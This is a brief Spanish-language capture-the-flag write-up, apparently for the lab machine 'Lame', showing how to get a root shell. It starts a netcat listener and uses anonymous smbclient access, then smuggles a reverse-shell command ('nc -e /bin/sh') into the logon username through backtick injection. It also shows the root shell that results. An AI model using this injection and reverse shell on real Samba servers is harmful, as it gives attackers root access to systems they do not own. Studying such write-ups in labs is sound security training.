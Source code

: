 Para hacer una reverse shell lo primero sera ponernos en escucha con netcat al puerto que sea yo utilizare el 443

```shell
> nc -lvnp <puerto>
```

```shell
> smbclient -N //10.10.10.3/tmp
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh <tu-ip> 443`"
Password:
```

Y recibimos la reverse shell dentro como root

```shell
> nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 38088
whoami
root
hostname
lame
```
